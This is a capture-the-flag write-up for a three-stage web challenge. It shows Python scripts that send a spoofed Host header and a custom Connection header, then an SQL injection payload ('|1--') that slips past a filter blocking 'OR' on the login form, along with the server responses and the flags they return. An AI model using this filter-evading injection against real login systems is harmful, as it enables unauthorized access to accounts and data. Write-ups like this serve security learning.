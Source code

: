 
 - http://37.187.186.219:5555 -- Our TARGET !

# Matrix 1 :
* Inspecting the source... nothing's interesting there.
* So i saved the picture (whiterabbit.jpg) and i started analysing it , i found this area "morpheus.matrix:5555"
 ![alt text](https://i.imgur.com/EjZ3azD.png "huh")
 
> Maybe something behind this adresse, so i made a little python script to communicate with our target changing "Host" header.

```
import requests
url = "http://37.187.186.219:5555"
head1 = {
    'host': "morpheus.matrix:5555",  ##  The host Header tells our target  which virtual host to use.
    'access-control-request-headers': "application/x-www-form-urlencoded",
    'x-requested-with': "application/json",
    'cache-control': "no-cache",
    }	
r = requests.request("GET", url, headers=head1)
print(r.text)
``` 
```
 # C:\>Python Matrix.py
 ================================= Result ====================================
 <body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
 Welcome my name is morpheus
 Here is the blue pill : MCTF3{WeARe4LL_our_Own_Perception}
 you can take this pill and stop here or you can take the red one to see the truth 
 this one is hidden, ask the program for it
 pill color:  369296fbbb4187530420a169398fc793 #<!-- ./matrix.txt !-->
 <img src="./pill.jpeg" height=250>
 </center></pre>
```
> - Cool , we got our first Flag ! __MCTF3{WeARe4LL_our_Own_Perception}__ :D

# Matrix 2 :
- Just checked : http://37.187.186.219:5555/matrix.txt | and i cracked the MD5 hash.... Hmmm what else !?
- I just found this word "keep-alive" ( in both of the hash cracked result and matrix.txt ) 
- __HTTP__ works with request-response : __client__ connects to __server__, performs a request and gets a response.
- Without keep-alive, the connection to an HTTP server is closed after each response. With HTTP __keep-alive__ you keep the underlying TCP connection open until certain criteria are met.
* Hummmm good to know this..., if u remember in __Matrix 1__ (you can take this pill and stop here or you can take the red one to see the truth, this one is hidden, ask the program for it ) 
- So here we have 2 choices ( take the pill (X) and stop here or take the red one , pill (red)
- I just choosed the red pill to know the truth Via " Connection Header "  xd.
- W're going to edit our python script by adding Connection Header with "red" parameter.
> i just renamed it head2 
```
import requests
url = "http://37.187.186.219:5555"
head2 = {
    'host': "morpheus.matrix:5555",
	'Connection': "red",
    'access-control-request-headers': "application/x-www-form-urlencoded",
    'x-requested-with': "application/json",
    'cache-control': "no-cache",
    }
r2 = requests.request("GET", url, headers=head2)
print(r2.text)
```
```
 # C:\>Python Matrix.py
 ================================= Result ====================================
<body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
Welcome to zion here is the Nebuchadnezzar 
MCTF3{Th3Truth_Mak3_U@Suffer}
 here you gonna start your training
<img src="./nb.jpeg" height=250>
<form method=post action=''><table>
<tr><td><font color="#125523" size=4>USER</td><td><input type=text name=username></td></tr>
<tr><td><font color="#125523" size=4>PASSWORD</td><td><input type=text name=password></td></tr>
<tr><td></td><td><input type=submit value='LOGIN'></td></tr>
</table></form>
```
> - Cool our 2nd flag ! __MCTF3{Th3Truth_Mak3_U@Suffer}__ :D


# Matrix 3 ( Final Adventure ) :
- Cool, we have now a USER & PASSWORD inputs here :D!
- Lets post some data !
> name=__username__ - name=__password__ and finally button for submission : __submit__.
```
query = {"username":"admin","password":"test","Type":"submit"} ## our query to post data ;)
rr = requests.post(url, headers=head2 , data=query)
print(rr.text)
```

```
 # C:\>Python Matrix.py
 ================================= Result ====================================
<body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
Welcome to zion here is the Nebuchadnezzar 
MCTF3{Th3Truth_Mak3_U@Suffer}
 here you gonna start your training
<img src="./nb.jpeg" height=250>
<form method=post action=''><table>
<tr><td><font color="#125523" size=4>USER</td><td><input type=text name=username></td></tr>
<tr><td><font color="#125523" size=4>PASSWORD</td><td><input type=text name=password></td></tr>
<tr><td></td><td><input type=submit value='LOGIN'></td></tr>
<h2><font color=red>Wrong Password !</font></h2>
</table></form>
<!--<?php
SELECT * from ninja where nname='admin' AND npass='098F6BCD4621D373CADE4E832627B4F6';--!>
```
> Hummm __Wrong Password__
> * We have an SQL Query *_* !
- Let's try to bypass it using the OR : __admin' or 1=1;---__
> No way, the "OR" is rejected lol , i also tried OorR , it appears but nothing happens lol :S
> I took 2 Hours, and finally i found it :]
- You need to use __|__ instead of __OR__
- My Payload was __'|1--__ and it means ---> __(select * from ninja where nname='' or 1--) ---> (select * from ninja where nname='' or True--)__
> - we used __--__ for __comments__ to ignore the password part :)
```
query = {"username":"'|1--","password":"test","Type":"submit"}
rr = requests.post(url, headers=head2 , data=query)
print(rr.text)
```
```
<body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
Welcome to zion here is the Nebuchadnezzar 
MCTF3{Th3Truth_Mak3_U@Suffer}
 here you gonna start your training
<img src="./nb.jpeg" height=250>
<form method=post action=''><table>
<tr><td><font color="#125523" size=4>USER</td><td><input type=text name=username></td></tr>
<tr><td><font color="#125523" size=4>PASSWORD</td><td><input type=text name=password></td></tr>
<tr><td></td><td><input type=submit value='LOGIN'></td></tr>
</table></form>
<!--<?php
SELECT * from ninja where nname=''|1--' AND npass='cfab1ba8c67c7c838db98d666f02a132';--!>
Welcome MCTF{Sqli_IzALwaysTHEk3y$}
</center></pre>
```
- Nice one :D final flag : __Welcome MCTF{Sqli_IzALwaysTHEk3y$}__


#### It was a great adventure guys , i really loved this CTF ! Thanks NEO :D ####

> Greetz to all my dudes : Th3 Jackers , Ghosty , Aymen , Tr0jan , Sudo_Root Team.... & All <3 
